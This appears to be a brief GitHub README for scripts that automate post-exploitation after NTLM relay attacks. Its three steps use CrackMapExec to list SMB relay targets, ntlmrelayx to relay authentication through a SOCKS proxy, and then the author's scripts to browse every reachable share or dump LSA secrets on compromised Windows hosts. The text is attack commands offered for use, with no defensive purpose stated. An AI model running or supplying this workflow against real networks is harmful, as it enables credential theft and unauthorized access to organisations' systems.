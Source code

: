 # ntlmrelayx2proxychains

Ever felt too lazy to explore all shares manually after using ntlmrelayx or felt too lazy to dump the lsa on all systems where you found a local administrator? If so, enjoy my scripts! :) 

## Steps to follow:
1) `cme smb -u "" -p "" -d domain.tld 0.0.0.0/22 --gen-relay-list targetlist`
2) `ntlmrelayx.py -tf targetlist -socks -smb2support`

// Next, to explore all shares or dump the lsa cache using proxychains cme:
3) `$bash ./ntlmrelayx2shares` or `$bash ./ntlmrelayx2lsa`

Note: ensure you put bash in front of your command.
